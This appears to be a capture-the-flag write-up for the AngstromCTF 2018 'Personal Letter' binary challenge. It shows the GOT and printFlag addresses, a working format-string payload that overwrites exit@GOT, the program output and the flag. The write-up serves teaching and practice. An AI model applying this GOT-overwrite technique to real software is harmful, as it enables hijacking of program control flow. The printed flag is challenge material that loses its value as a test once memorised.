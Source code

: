 # AngstromCTF_2018: Personal Letter

**Category:** Binary
**Points:** 160
**Description:**

>Have you ever gotten tired of writing your name in the header of a letter? Well now there's a [program](personal_letter32) to do it for you! Navigate to /problems/letter/ on the shell server to try your exploit out!

## Write-up
This challenge was slightly tricky in that it was a ROP challenge that had to done with format strings. There will be many solutions to this challenge but essentially I chose to target the Global Offset Table (GOT). Before we can start crafting our exploit, we need to know the addresses of what we are targetting.

    printFlag:  0x804872b
    exit@GOT:   0x804a030

Knowing that, let's target the last two bytes of our exit GOT table. Next, we craft our exploit and try to execute it.

    $ python -c 'print("\x30\xa0\x04\x08" + "\x31\xa0\x04\x08" + "%27u" + "%26$hnn" + "%91u" + "%27$hhn")' | ./personal_letter32 
    Welcome to the personal letter program!
    Give us your name, and we will generate a letter just for you!
    Enter Name (100 Chars max): 
    ________________________________________
    |                                      |
    |                                      |
    |  Dear 01                 4289382168n                                                                                         28,|
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |  __________________________________  |
    |______________________________________|
    Exiting.

    Status Code: 0
    Here's a flag: actf{flags_are_fun}

Therefore, the flag is `actf{flags_are_fun}`.
